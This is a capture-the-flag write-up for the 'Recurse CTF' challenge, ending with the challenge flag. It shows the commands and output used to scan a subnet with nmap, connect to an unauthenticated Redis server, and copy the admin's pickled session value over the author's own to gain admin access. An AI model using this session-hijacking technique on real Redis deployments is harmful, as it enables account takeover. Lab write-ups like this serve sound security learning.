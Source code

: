 # Recurse CTF
> A CTF inside a CTF?
> 
> I know you have always wanted to hack a CTF... this is your chance! The admin has the real flag.
> 
> Some light scanning is allowed for this challenge 

I found this to be a very challenging flag to obtain. I failed to do so during competition, and only resolved it after getting a hint from the creator. 

This environment has a huge number of rabbit holes to fall in to. Rmember during these CTF events to follow KISS.

Open the CTF site and check your cookies. Observe a cookie named `redis-session`. We have a Redis server to target.

Open the terminal, check `netstat` to view active connections:
```
~ # netstat -a -n | grep ESTAB
tcp        0      0 10.112.6.197:6379       10.112.6.197:44808      ESTABLISHED
tcp        0      0 127.0.0.1:34426         127.0.0.1:6379          ESTABLISHED
tcp        0      0 10.112.6.197:44808      10.112.6.197:6379       ESTABLISHED
tcp        0      0 127.0.0.1:6379          127.0.0.1:34426         ESTABLISHED
tcp        0      0 127.0.0.1:6379          127.0.0.1:49190         ESTABLISHED
tcp        0      0 127.0.0.1:49190         127.0.0.1:6379          ESTABLISHED
tcp        0      0 ::ffff:10.112.6.197:8080 ::ffff:10.128.0.19:22604 ESTABLISHED
tcp        0      0 ::ffff:10.112.6.197:8080 ::ffff:10.128.0.10:19702 ESTABLISHED
tcp        0      7 ::ffff:10.112.6.197:8080 ::ffff:10.128.0.21:11235 ESTABLISHED
tcp        0      0 ::ffff:10.112.6.197:8080 ::ffff:10.128.0.21:33038 ESTABLISHED
```

Note there are two subnets in play here -- 10.112.6.0/24 and 10.128.0.0/24. Lets install nmap and do some scans (`apk add nmap`).

The subnet our shell _isn't_ on is a red herring, ignore it. If you scan it, you'll find a lot of interesting rabbit holes to fall in to.

Lets scan our local subnet for redis hosts:
```
~ # nmap 10.112.6.0/24 -p 6379 --open
Starting Nmap 7.80 ( https://nmap.org ) at 2022-12-18 08:26 UTC
Nmap scan report for recurse-ctf-9bc4d50bf1c15ddd-59b8955568-kfkzg (10.112.6.197)
Host is up (0.000082s latency).

PORT     STATE SERVICE
6379/tcp open  redis

Nmap done: 256 IP addresses (6 hosts up) scanned in 24.20 seconds
```

We have our target. Lets install redis-cli (`apk add redis`) and connect:
```
~ # redis-cli -h 10.112.6.197
10.112.6.197:6379> keys *
1) "session:348d6f5f-eea0-43d4-b7ed-ca3e0f40ca91"
```

This initial session was created before logging in, and is presumably for a pre-logged in user, hopefully our admin? Lets see the contents of the key:
```
10.112.6.197:6379> get session:348d6f5f-eea0-43d4-b7ed-ca3e0f40ca91
"\x80\x04\x95\x0b\x00\x00\x00\x00\x00\x00\x00}\x94\x8c\x02id\x94K\x01s."
```

Lets create an account on the site and log in, and then check for a new key:
```
10.112.6.197:6379> keys *
1) "session:348d6f5f-eea0-43d4-b7ed-ca3e0f40ca91"
2) "session:2da39ba1-ccdd-4300-af62-085eac9d8938"
10.112.6.197:6379> get session:2da39ba1-ccdd-4300-af62-085eac9d8938
"\x80\x04\x95\x0b\x00\x00\x00\x00\x00\x00\x00}\x94\x8c\x02id\x94K\x02s."
```

Assumption -- if we update our session key with the value from admin, we'll get admin privs. Lets try that:
```
10.112.6.197:6379> set "session:2da39ba1-ccdd-4300-af62-085eac9d8938" "\x80\x04\x95\x0b\x00\x00\x00\x00\x00\x00\x00}\x94\x8c\x02id\x94K\x01s."
OK
```

Refresh page and now we can see an `Admin panel` button. Click that to get flag:
`Congratulations you are the admin here is the flag: flag{1435eaab209a13f1cb3cf2207a6988bc}`

Cheers to congon4tor for such a fun but challenging flag.

